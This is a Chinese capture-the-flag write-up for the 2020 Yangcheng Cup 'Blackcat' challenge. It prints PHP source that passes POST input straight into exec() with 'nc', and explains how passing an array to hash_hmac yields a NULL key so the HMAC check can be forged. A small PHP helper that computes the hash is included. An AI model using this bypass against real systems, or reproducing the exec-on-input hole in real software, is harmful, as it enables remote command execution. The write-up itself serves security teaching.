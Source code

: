 # [羊城杯 2020]Blackcat

## 知识点

`hash_hmac`

## 解题

下载音乐，然后使用`010editor`打开即可查看源码

```php
if(empty($_POST['Black-Cat-Sheriff']) || empty($_POST['One-ear'])){
    die('谁！竟敢踩我一只耳的尾巴！');
}
$clandestine = getenv("clandestine");
if(isset($_POST['White-cat-monitor']))
    $clandestine = hash_hmac('sha256', $_POST['White-cat-monitor'], $clandestine);
$hh = hash_hmac('sha256', $_POST['One-ear'], $clandestine);
if($hh !== $_POST['Black-Cat-Sheriff']){
    die('有意瞄准，无意击发，你的梦想就是你要瞄准的目标。相信自己，你就是那颗射中靶心的子弹。');
}
echo exec("nc".$_POST['One-ear']);
```

`hash_hmac`第二个参数为数组时会返回`NULL`，那么` $_POST['White-cat-monitor']`即可设置为`[]`，`Black-Cat-Sheriff`就为对应`hash_hmac('sha256', $_POST['One-ear'], NULL);`生成的`hash值`

使用`payload`

```python
<?php

echo $_POST['One-ear'] . '<br>';
$hh = hash_hmac('sha256', $_POST['One-ear'], false);
echo $hh;
```

![](./img/[羊城杯2020]Blackcat-1.png)